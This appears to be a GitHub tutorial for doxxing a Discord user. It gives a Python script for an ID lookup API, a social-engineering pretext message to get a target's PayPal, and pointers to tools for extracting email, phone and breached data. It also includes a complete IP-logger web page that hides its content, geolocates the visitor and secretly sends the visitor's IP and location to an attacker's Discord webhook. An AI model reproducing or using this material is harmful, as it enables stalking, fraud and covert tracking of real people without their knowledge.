 # Info Gathering of a Discord user

> **To get information from a Discord user, I recommend the following steps (please note that all of this is a dispensable and modifiable example):**

**1. Activate the Discord developper mode**

```text
User Settings > Application Settings > Behaviour and enable Developer Mode
```

**2. Obtain the user ID of the person to be provided with information** 

```text
Right click in the username > Copy user ID
```

**3. Obtaint information from this ID**

- **For this step we will use the API of [this](https://github.com/mesalytic/discord-lookup-api) repository, which can also look up information about guilds, apps, etc... But we will use it to look up the person ID of the user**

```text
https://discordlookup.mesalytic.moe/v1/user/ + the user ID of the person to search
```

- **The search result in your browser should look something like this:**

![imagen](https://github.com/user-attachments/assets/826ca3e5-79b4-4b53-a184-c2cbefacd3f5)

> **Here is an example of a Python request to the API to automate the process:**

```python
import requests, os

def clear():
    if os.name == 'nt': os.system('cls')
    else: os.system('clear')

API_URL = 'https://discordlookup.mesalytic.moe/v1/user/'

def main():
    clear()
    user = int(input('Enter the user ID to gather information: '))
    try:
        response = requests.get(API_URL + str(user))

        if response.status_code == 200:
            data = response.json()
                
            def format_user_info(data, indent=0):
                info = []
                for key, value in data.items():
                    if isinstance(value, dict):
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}:")
                        info.append(format_user_info(value, indent + 1))
                    else:
                        if isinstance(value, list):
                            value = ", ".join(str(v) for v in value)
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}: {value}")
                return '\n'.join(info)
                
            user_info = format_user_info(data)
            print('\n-------------------------------------------------------------------------------')
            print(user_info)
            print('\n-------------------------------------------------------------------------------')

        input()
        main()

    except Exception as ex:
        print('Error: ' + str(ex))


if __name__ == '__main__':
    main()
```

**4. Okay, after this, let's put social engineering into practice to get the target person's PayPal**

-  **You can send a message like this:**

```text
Hi, I would like to buy some items from your shop, I have been looking for them for a long time and I have found them, please tell me the price!
```

> **This is an example message, you can use any message you want**

- **Paypal example:**

```text
paypal.me/username
```

- **This is the structure if paypal.me, the most common, but the user can provide you the email**

- **Example PayPal email:**

```text
example@gmail.com
```

**5. When you have PayPal.me, we will use my server tech, which you can access [here](https://discord.gg/freeforreal)**

- You need to get the tech from the shop called ‘t2ch-paypal’

![imagen](https://github.com/user-attachments/assets/1ec41666-d86e-479e-bb66-7dbdde011486)

**6. Use the tech to get the person's email and phone number. The number may not be revealed, there is a bug for that, but get as much information as you can from that PayPal**

**6. After that, you can use our bots for server lookups, as well as other platforms such as intelX. I also recommend you to use the snusbase tool you will find on my server to check if the email is leaked**

> **Para el número de teléfono, te recomiendo esta [herramienta](https://github.com/Euronymou5/Dark-Hydro)**
> **For email, I re-recommend these sites, in addition to open source tools from GitHub that you can download and use, like [MailCat](https://github.com/sharsil/mailcat) or [Sherlock](https://github.com/sherlock-project/sherlock), for example:**

- https://mailmeteor.com/email-checker
- https://www.aware-online.com/en/osint-tools/email-address-tools/
- https://epieos.com/
- https://hunter.io/email-verifier
- https://tools.emailhippo.com/
- https://email-checker.net/

> **If you want to make more complete OSINT searches, I recommend [this](https://github.com/Euronymou5/DorkBuster) tool**

## Obtaining the public IP

**1. If you want to get someone's public IP, the first option is [IpLogger](https://iplogger.org/en/) (in my opinion the worst)**
**2. The second option is to use the open source tool [RedHawk](https://github.com/Tuhinshubhra/RED_HAWK). You can download it by following the instructions, and it allows you, among other options, to know the public IP of the user who has raised a website. In other words, if the target has a website, this tool is generally very useful**
**3. The last option is to create your own website and host it (on [GitHub Pages](https://pages.github.com/) or another hosting of your choice) and put the code shown below:**

> **HTML code (index.html)**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Not Available</title>
    <!-- CSS -->
    <link rel="stylesheet" href="src/css/main.min.css">
    <!-- Fontawesome -->
    <link href="https://cdn.staticaly.com/gh/hung1001/font-awesome-pro/4cac1a6/css/all.css" rel="stylesheet" type="text/css" />
    <!-- Google Fonts -->
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Lora:wght@700&family=Poppins:wght@300;600&display=swap" rel="stylesheet">
    <!-- Leaflet -->
    <link rel="stylesheet" href="https://unpkg.com/leaflet@1.7.1/dist/leaflet.css" integrity="sha512-xodZBNTC5n17Xt2atTPuE1HxjVMSvLVW9ocqUKLsCC5CXdbqCmblAshOMAS6/keqq/sMZMZ19scR4PsZChSR7A==" crossorigin="" />
    <link rel="icon" type="image/x-icon" href="./src/favicon.ico">
    <script src="https://unpkg.com/leaflet@1.7.1/dist/leaflet.js" integrity="sha512-XQoYMqMTK8LvdxXYG3nZ448hOEQiglfqkJs1NOQV44cWnUrBc8PkAOcXy20w0vlaXaVUearIOBhiXZ5V3ynxwA==" crossorigin=""></script>
    <!-- Notyf CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/notyf@3/notyf.min.css">
  </head>
  <body>
    <header class="header"></header>
    <script src="./config.js"></script>
    <script>
      function get_information(link, callback) {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", link, true);
        xhr.onreadystatechange = function() {
          if (xhr.readyState === 4) {
            callback(xhr.responseText);
          }
        };
        xhr.send(null);
      }
      get_information("http://ip-api.com/json/?fields=status,message,continent,continentCode,country,countryCode,region,regionName,city,district,zip,lat,lon,timezone,offset,currency,isp,org,as,asname,reverse,mobile,proxy,hosting,query", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "razzylog";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });
      get_information("https://api.ipify.org/", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "ipppp";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });

      function ipLogByRaz() {
        var ispp = document.getElementById('ipppp').innerHTML
        var extra = document.getElementById("razzylog").innerHTML
        const request = new XMLHttpRequest();
        request.open("POST", wbhk);
        request.setRequestHeader('Content-type', 'application/json');
        const params = {
          username: "Logger",
          avatar_url: 'https://images.g2crowd.com/uploads/product/image/large_detail/large_detail_de619ca81012d42cede6fd18af63d8b1/inkscape.png',
          content: "**Ip** : _" + ispp + "_\n**Raw** : _https://api.techniknews.net/ipgeo/" + ispp + "_\n**Extra Info** : ```" + extra + "```"
        }
        request.send(JSON.stringify(params));
      }
      setTimeout(function() {
        ipLogByRaz()
      }, 700);
    </script>
    <style>
      .header {
        display: none
      }

      .map-container {
        display: none
      }
    </style>
  </body>
</html>
```

> **JavaScript code (config.js)**

```js
var wbhk = 'YOUR DISCORD WEBHOOK'
```

- **Create a webhook in Discord through which the data of whoever enters the WebLogger you have created will be sent. You can create it like this:**

```text
Server Config > Integrations > New Webhook > Copy Webhook URL
```

### Thanks for watch this tutorial and leave a star for Free for REAL please!
